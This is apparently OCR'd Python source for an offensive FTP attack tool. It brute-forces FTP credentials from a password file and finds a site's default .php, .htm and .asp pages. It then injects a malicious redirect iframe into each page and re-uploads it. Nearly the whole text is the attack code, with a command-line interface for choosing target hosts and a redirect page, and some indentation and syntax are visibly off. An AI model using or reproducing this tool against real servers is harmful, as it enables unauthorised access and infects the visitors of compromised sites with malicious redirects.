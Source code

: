 ```
        return True
    except Exception as e:
        print('\n[-] ' + str(hostname) + ' FTP Anonymous Logon Failed.')
        return False

def bruteLogin(hostname, passwdFile):
    pF = open(passwdFile, 'r')
    for line in pF.readlines():
        time.sleep(1)
        userName = line.split(':')[0]
        passWord = line.split(':')[1].strip('\r').strip('\n')
        print '[+] Trying: ' + userName + '/' + passWord
        try:
            ftp = ftplib.FTP(hostname)
            ftp.login(userName, passWord)
            print('\n[*] ' + str(hostname) + ' FTP Logon Succeeded: '+userName+'/'+passWord)
            ftp.quit()
            return (userName, passWord)
        except Exception, e:
            pass
        print('\n[-] Could not brute force FTP credentials.')
        return (None, None)

def returnDefault(ftp):
    try:
        dirList = ftp.nlst()
    except:
        dirList = []
        print('[-] Could not list directory contents.')
        print('[-] Skipping To Next Target.')
        return
    retList = []
    for fileName in dirList:
        fn = fileName.lower()
        if '.php' in fn or '.htm' in fn or '.asp' in fn:
            print('[+] Found default page: ' + fileName)
        retList.append(fileName)
    return retList

def injectPage(ftp, page, redirect):
    f = open(page + '.tmp', 'w')
    ftp.retrlines('RETR ' + page, f.write)
    print('[+] Downloaded Page: ' + page)
    f.write(redirect)
    f.close()
    print('[+] Injected Malicious IFrame on: ' + page)
    ftp.storlines('STOR ' + page, open(page + '.tmp'))
    print('[+] Uploaded Injected Page: ' + page)

def attack(username, password, tgtHost, redirect):
    ftp = ftplib.FTP(tgtHost)
    ftp.login(username, password)
    defPages = returnDefault(ftp)
    for defPage in defPages:
        injectPage(ftp, defPage, redirect)

def main():
    parser = optparse.OptionParser('usage%prog -H <target host[s]> -r <redirect page> [-f <userpass file>]')
    parser.add_option('-H', dest='tgtHosts', type='string', help='specify target host')
    parser.add_option('-f', dest='passwdFile', type='string', help='specify user/password file')
    parser.add_option('-r', dest='redirect', type='string', help='specify a redirection page')
    (options, args) = parser.parse_args()
```